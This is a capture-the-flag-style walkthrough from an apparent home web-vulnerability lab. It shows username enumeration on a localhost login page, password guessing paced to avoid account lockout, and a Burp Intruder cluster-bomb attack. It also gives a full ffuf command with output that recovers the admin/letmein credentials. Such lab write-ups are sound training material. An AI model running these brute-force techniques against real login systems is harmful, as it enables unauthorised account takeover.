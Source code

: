 # Challange

**Warning: Accounts will lock after 5 failed login attempts!**

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/5d11e1e5-9dca-4236-bb79-154b0f6511b9)

- On trying a random username and password we got 1 incorrect login attempt.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/5ccbd5ae-28b0-437a-b456-4492418c2956)

- While submitting another random username and password we revert nothing, so here is the indication that the admin user exists.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/d38a332f-aa91-4d4a-b83e-9724fb096615)

- We will make a list of the top 3 most used passwords to not let the accounts lock.
  - Passwords: letmein, 123456, teashop
- Next, we will intercept the request and send it to the intruder.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/8e81949b-4f3f-492a-8e87-f8344d6d3046)

- Next, we will use the attack method as cluster bomb load the username list and the top 3 passwords.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/8d801b11-f8b0-452d-8a7f-80954cefd934)

- After clicking on start attack we have got the user `admin` and password `letmein`.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/f7836e5b-7c95-48a8-8643-c5824f135260)

- On entering the details of user admin and password letmein. We have successfully logged in.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/a831f884-01aa-4c5f-9d02-280d82955450)

## Alternate:

- We can use the tool called ffuf,wffuf, and hydra to achieve the same. This time let's use ffuf.
- For using ffuf we need to copy the request and save it to a file in the local machine.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/7c34c88a-ae73-4e0d-a0dc-2af13089893e)

- On saving the request to the file, we need to do some modifications to the file by defining the arguments to get suitable results.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/f33c1da9-ad50-42a7-bd5d-ea48165b37ff)

- Make a file of the top 3 passwords.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/d5f9a155-f04a-42f9-9085-dd15755c9d97)

- By using the command: `ffuf -request reqs.txt -request-proto http -mode clusterbomb -w pass.txt:FUZZPASS -w /usr/usernames-shortlist.txt:FUZZUSER -fs 3376,3256`

```bash
└─$ ffuf -request reqs.txt -request-proto http -mode clusterbomb -w pass.txt:FUZZPASS -w /usr/share/wordlists/seclists/SecLists-master/Usernames/top-usernames-shortlist.txt:FUZZUSER -fs 3376,3256

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://localhost/labs/a0x03.php
 :: Wordlist         : FUZZPASS: /home/singhx/labs/PEH/XSS/pass.txt
 :: Wordlist         : FUZZUSER: /usr/share/wordlists/seclists/SecLists-master/Usernames/top-usernames-shortlist.txt
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Connection: close
 :: Header           : Cookie: PHPSESSID=bcbc6597490163fa9ed394d5f5145dcd
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Sec-Fetch-Site: same-origin
 :: Header           : Sec-Fetch-User: ?1
 :: Header           : Accept-Encoding: gzip, deflate
 :: Header           : Sec-Fetch-Mode: navigate
 :: Header           : Host: localhost
 :: Header           : Origin: http://localhost
 :: Header           : Referer: http://localhost/labs/a0x03.php
 :: Header           : Sec-Fetch-Dest: document
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZUSER&password=FUZZPASS
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 3376,3256
________________________________________________

[Status: 200, Size: 3378, Words: 1270, Lines: 68, Duration: 3ms]
    * FUZZPASS: letmein
    * FUZZUSER: admin

:: Progress: [51/51] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```
- Got the same credentials.
